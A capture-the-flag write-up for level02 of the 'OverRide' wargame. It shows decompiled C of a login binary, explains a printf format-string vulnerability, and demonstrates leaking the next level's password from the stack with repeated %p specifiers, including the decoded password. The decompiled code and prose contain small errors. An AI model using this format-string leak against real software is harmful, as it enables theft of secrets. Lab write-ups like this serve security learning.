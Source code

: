 ## Step 1: Static & Dynamic Analysis

```c
int main(int argc, const char **argv, const char **envp)
{
  char name[100];
  char password[118];
  char buffer[48];
  int v5;
  int v8;
  int fd;
  FILE *stream

  memset(name, 0, sizeof(s));
  v8 = 0;
  memset(buffer, 0, 41);
  memset(password, 0, sizeof(password));
  v5 = 0;
  stream = 0;
  fd = 0;
  stream = fopen("/home/users/level03/.pass", "r");
  if ( !stream )
  {
    fwrite("ERROR: failed to open password file\n", 1, 36, stderr);
    exit(1);
  }
  fd = fread(buffer, 1, 41, stream);
  buffer[strcspn(buffer, "\n")] = 0;
  if ( fd != 41 )
  {
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    fwrite("ERROR: failed to read password file\n", 1, 36, stderr);
    exit(1);
  }
  fclose(stream);
  puts("===== [ Secure Access System v1.0 ] =====");
  puts("/***************************************\\");
  puts("| You must login to access this system. |");
  puts("\\**************************************/");
  printf("--[ Username: ");
  fgets(name, 100, stdin);
  name[strcspn(name, "\n")] = 0;
  printf("--[ Password: ");
  fgets(password, 100, stdin);
  password[strcspn(password, "\n")] = 0;
  puts("*****************************************");
  if ( strncmp(buffer, password, 41) )
  {
    printf(name);
    puts(" does not have access!");
    exit(1);
  }
  printf("Greetings, %s!\n", name);
  system("/bin/sh");
}
```
### Explanation

The binary start by putting the wordpass of 40 characters of the next level into a `buffer` on the stack.

```c
fd = fread(buffer, 1, 41, stream);
```

Then, 2 inputs using `fgets()` are taken: a `name` and a `password`.
Finally a comparison between the `buffer` containing the password is equal to the `name`.

The issue results in the fact that if the the comparison listed just above is false, our input `name` will be passed 
as parameter to `printf()` creating a **printf format string vulnerability* that will enable us to read what's on the stack.

## Step 2: Exploiting the Binary

To achieve it, we're going to use the `%p` format specifier to print addresses's content in hexadecimal
and see the wordpass ASCII characters of the next level on the stack.

```bash
level02@OverRide:~$ ./level02 
===== [ Secure Access System v1.0 ] =====
/**\
| You must login to access this system. |
***/
--[ Username: %p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p%p
--[ Password: 
*
0x7fffffffe500(nil)(nil)0x2a2a2a2a2a2a2a2a0x2a2a2a2a2a2a2a2a0x7fffffffe6f80x1f7ff9a08
(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)(nil)0x100000000(nil)
0x756e5052343768480x45414a35617339510x377a7143574e67580x354a35686e4758730x48336750664b394d0xfeff00 does not have access!
```

Here are the 5 bytes containing every characters that constitutes the password to reverse
because each addresses's content are displayed in little endian.  

```
756e505234376848 45414a3561733951 377a7143574e6758 354a35686e475873 48336750664b394d
unPR47hH         EAJ5as9Q         7zqCWNgX         5J5hnGXs         H3gPfK9M
```

giving this password:

```
Hh74RPnuQ9sa5JAEXgNWCqz7sXGnh5J5M9KfPg3H
```